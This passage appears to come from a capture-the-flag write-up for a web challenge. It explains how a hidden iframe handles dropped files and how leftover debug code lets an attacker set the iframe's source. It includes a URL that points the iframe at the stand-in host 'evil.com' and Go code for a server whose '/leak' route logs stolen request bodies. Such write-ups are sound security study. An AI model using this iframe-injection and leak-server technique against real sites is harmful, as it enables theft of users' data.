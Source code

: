 1) The root page listens on file drop events, and then sends each file object 
   with a `postMessage` event to the hidden iframe.
2) The hidden iframe creates an objectURL with the 
   [`createObjectURL()`](https://developer.mozilla.org/en-US/docs/Web/API/URL/createObjectURL)
   function, and then sends the created URL back to the events source.
3) The root page now receives the created URL and creates new DOM elements to 
   display a link to the file.

During this exploration we also found out that we can control the source of 
the hidden iframe as there is some debug code left in the application. For 
example the following URL loads the the domain `evil.com` as the source of the
iframe:

```
https://trustbox.hackthe.space?debug=https://evil.com
```

### Server Setup

At this point it became obvious that we will need to create a server to serve 
evil pages to exploit the application. Since I have written a couple of servers 
already in [Go](https://golang.org/) I chose this language to write my server.

The server only has two routes, `/` serves the html file `index.html` and any 
request to `/leak` will print the request body and useragent to stdout.

```go
// File: main.go
package main

import (
    "fmt"
    "io"
    "log"
    "net/http"
    "os"
)

// Serve the file inner.html
func root(w http.ResponseWriter, r *http.Request) {
    log.Printf("%s %s", r.Method, r.URL.String())
    bytes, _ := os.ReadFile("index.html")
    w.Write(bytes)
}

func leak(w http.ResponseWriter, r *http.Request) {
    log.Printf("%s %s", r.Method, r.URL.String())
    bytes, _ := io.ReadAll(r.Body)

    // Write the body as a string to stdout
    log.Printf("Leaked Body: %+v\n", string(bytes))
    log.Printf("Leaked Agent: %+v\n", r.Header["User-Agent"])
}

func main() {
    // Setup routes
    http.HandleFunc("/", root)
    http.HandleFunc("/leak", leak)

    // Start listending for requests
    fmt.Println("Listening")
    log.Fatal(http.ListenAndServe(":3000", nil))
}
```
